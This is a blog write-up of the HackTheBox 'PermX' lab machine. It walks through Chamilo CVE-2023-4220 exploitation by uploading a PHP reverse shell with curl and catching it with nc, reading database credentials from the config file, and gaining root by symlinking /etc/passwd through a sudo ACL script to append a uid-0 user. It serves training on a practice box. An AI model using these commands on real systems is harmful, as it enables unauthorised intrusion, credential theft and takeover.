







+++
title = 'PermX'
date = 2024-07-13T10:07:03+03:00
draft = false
tags = ['htb', 'writeup']
summary = '[PermX](https://app.hackthebox.com/machines/613) is an easy Linux CTF box, that is a part of HackTheBox season 5 machines. Basic CVE exploitation and a little bit of Linux & Bash knowledge. Machine is created by [mtzsec](https://app.hackthebox.com/users/1573153) `+respict`.'
description = '"PermX" is an easy CTF machine. Released on 6th of July, 2024 (HackTheBox)'
thumbnail = 'img/px-logo.png'
+++


Initial Access
==============

Enumeration
-----------

### Nmap Scan

At first I performed an Nmap scan `sudo nmap -v -sC -sV -oN scans/nmap/init $IP`. I found that ports `22` & `80` are open. The port `80` redirects us to a domain name `permx.htb` that we must add in `/etc/hosts` file.

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Virtual hosts enumeration

I right away tried to perform virtual hosts bruteforce. For that I used `ffuf`:

```bash
ffuf -u http://$IP -c -w subdomains-top1million-20000.txt -H 'Host: FUZZ.permx.htb' -fw 18
```

It ended up finding two subdomains. While I did look at the root domain & the `www` domain, the main initial access part happens in the `lms`:



The domain contains an e-learning platform `Chamilo`. At first I tried various password guessing attempts, but that did not work:



### Version Detection

I found out that this software has a long list of CVEs. For exploitation I first wanted to find the version. I tried various files like `README.md` & `LICENSE` but that only revealed that the version was `1.11.x`. Then I noticed that this platform has a documentation page and that revealed the version as `1.11.24`:



Exploitation
------------

The version `1.11.24` is vulnerable to an unauthenticated remote code execution (`CVE-2023-4220`). I found a nice [blog post](https://starlabs.sg/advisories/23/23-4220/) that shows the exploitation. For exploitation I used the [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) to gain RCE:

```bash
sudo nc -lnvp 443
curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php'
```



Privilege Escalation
====================

User Access
-----------

The first thing I did was I found the database credentials:

```bash
cat /var/www/chamilo/app/config/configuration.php | grep 'db_'
```

While I did log into the database & exfiltrate the password hashes, I was unable to crack them. Instead it turns out that the only user `mtz` has reused the password and the SSH password is the same as the database password:



Root Access
-----------

The root access for this box was by far the most fun bit. It turns out that the user can execute a bash script with `sudo` privileges (`sudo -l`):



The script contains the following:

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

The script takes three arguments:
1. `$user` - the user to set the ACL for;
2. `$perm` - the permissions to set;
3. `$target` - the file path to which the ACL will be set on;

We could set write permissions to `/etc/passwd` & add a new user, but the path is validated. The script checks if the path starts with `/home/mtz`. We could use `/home/mtz/../../etc/passwd`, but the script also checks if the path contains two dots. The solution is to use `soft links`. To exploit the vulnerability:


```bash
#!/bin/bash

# Create the soft link in home directory (passes both checks)
ln -sf /etc/passwd /home/mtz/passwd

# Run the script to allow read & write to the /etc/passwd
sudo /opt/acl.sh mtz rw /home/mtz/passwd

# Add a new user with the id of 0 (the password is: 123)
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd

# Remove the link
rm /home/mtz/passwd

# Log in ass the new user
su new
```

Executing the script we gain root privileges. Note that if we `getfacl` on `/etc/passwd` the user `mtz` has read & write access:


